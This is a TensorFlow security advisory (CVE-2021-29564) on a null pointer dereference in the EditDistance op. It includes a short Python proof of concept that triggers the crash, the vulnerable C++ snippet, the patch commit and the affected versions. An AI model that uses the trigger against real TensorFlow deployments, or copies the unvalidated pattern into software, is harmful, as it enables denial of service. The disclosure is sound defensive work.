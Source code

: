 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-052.md
## TFSA-2021-052: Null pointer dereference in `EditDistance`

### CVE Number
CVE-2021-29564

### Impact
An attacker can trigger a null pointer dereference in the implementation of
`tf.raw_ops.EditDistance`:

```python
import tensorflow as tf

hypothesis_indices = tf.constant([247, 247, 247], shape=[1, 3], dtype=tf.int64)
hypothesis_values = tf.constant([-9.9999], shape=[1], dtype=tf.float32)
hypothesis_shape = tf.constant([0, 0, 0], shape=[3], dtype=tf.int64)
truth_indices = tf.constant([], shape=[0, 3], dtype=tf.int64)
truth_values = tf.constant([], shape=[0], dtype=tf.float32)
truth_shape = tf.constant([0, 0, 0], shape=[3], dtype=tf.int64)

tf.raw_ops.EditDistance(
    hypothesis_indices=hypothesis_indices, hypothesis_values=hypothesis_values,
    hypothesis_shape=hypothesis_shape, truth_indices=truth_indices,
    truth_values=truth_values, truth_shape=truth_shape, normalize=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/79865b542f9ffdc9caeb255631f7c56f1d4b6517/tensorflow/core/kernels/edit_distance_op.cc#L103-L159)
has incomplete validation of the input parameters.

In the above scenario, an attacker causes an allocation of an empty tensor for
the output:

```cc
OP_REQUIRES_OK(ctx, ctx->allocate_output("output", output_shape, &output));
auto output_t = output->flat<float>();
output_t.setZero();
```

Because `output_shape` has 0 elements, the result of `output->flat<T>()` has an
empty buffer, so calling `setZero` would result in a null dereference.

### Patches
We have patched the issue in GitHub commit
[f4c364a5d6880557f6f5b6eb5cee2c407f0186b3](https://github.com/tensorflow/tensorflow/commit/f4c364a5d6880557f6f5b6eb5cee2c407f0186b3).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
